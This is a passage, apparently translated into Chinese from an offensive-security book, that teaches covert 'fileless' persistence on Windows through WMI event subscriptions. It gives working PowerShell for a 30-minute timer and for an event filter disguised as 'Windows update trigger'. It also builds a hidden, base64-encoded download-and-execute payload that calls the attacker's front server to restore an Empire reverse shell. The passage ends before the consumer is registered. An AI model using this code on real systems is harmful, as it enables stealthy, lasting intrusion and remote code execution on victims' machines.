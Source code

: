 这些都是很好的技术，但它们要么太明显，要么需要磁盘上的文件，这并不是很隐蔽。相反，我们将使用一种有趣的“无文件”技术，它依赖于Windows管理规范过滤器（WMI）。

我们已经使用了一个WMI工具来发出RPC函数和执行命令（Linux上的wmiexec和Windows上的wmic.exe）。事实上，它的功能要比这强大得多，因为它提供了与Windows内部组件交互的几乎独一无二的方式。

一个如此有趣的组件是事件筛选器。它可以将计算机上的事件：进程创建、用户登录等与要执行的操作（例如执行命令）联系起来。看到这是怎么回事吗？

我们将使用 WMI 设置事件观察程序，然后指示它执行 PowerShell 命令，该命令在触发事件时将回连。为此，我们设置了三个 WMI 组件：
- WMI 注册事件;它可以是一个简单的30分钟的计时器。
- WMI 注册筛选器，用于监视此事件并在触发时发出警报。
- 一个 WMI 使用者，表示筛选器发出警报后要执行的操作。

我们首先在 PowerShell 中注册 30 分钟的计时器：
```
PS > $TimerArgs = @{
 IntervalBetweenEvents = ([UInt32] 1800000) # 30 min
 SkipIfPassed = $False
 TimerId ="Trigger" }
```

我们基于此计时器创建一个_IntervalTimerInstruction对象。此对象的类是默认命名空间 root/cimv2 的一部分，它包含大多数操作系统类对象和函数。
```
PS > $Timer = Set-WmiInstance -Namespace root/cimv2 -Class
__IntervalTimerInstruction -Arguments $TimerArgs
```

已设置事件。我们现在需要指定一个筛选器来监视触发此事件时。它只是一个"选择"查询，在 Windows 每秒触发的数千个其他事件中查找计时器事件：
```
PS > $EventFilterArgs = @{
 EventNamespace = 'root/cimv2'
 Name = "Windows update trigger"
 Query = "SELECT * FROM __TimerEvent WHERE TimerID = 'Trigger'"
 QueryLanguage = 'WQL'
}
```

和以前一样，我们实例化了属于类的对象__EventFilter类来注册筛选器：
```
PS > $Filter = Set-WmiInstance -Namespace root/subscription -Class
__EventFilter -Arguments $EventFilterArgs
```

理想情况下，我们希望在每次事件触发时执行命令。此命令将从前置服务器下载并执行脚本。

大多数时候，这个脚本都是无害的“hello”，因为我们不需要在机器上生成50000个shell。一旦我们失去了Empire代理的访问权限，我们就可以用一个新的Empire代理替换这个虚假的hello，它将重新建立反向shell访问权限。

我们的负载将像web客户端一样简单，它下载一个文件（当然要考虑代理），然后执行它。我们对负载进行编码，以简化内联命令方式执行，就像Empire一样：
```
PS > $payload = '$browser=New-Object System.Net.WebClient;
$browser.Proxy.Credentials =
[System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString("http://<FrontGun>/script.txt"));'
PS > $EncodedPayload =
[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($payload))
PS > $FinalPayload = "powershell.exe -NoP -sta -NonI -W Hidden -Enc
$EncodedPayload"
```
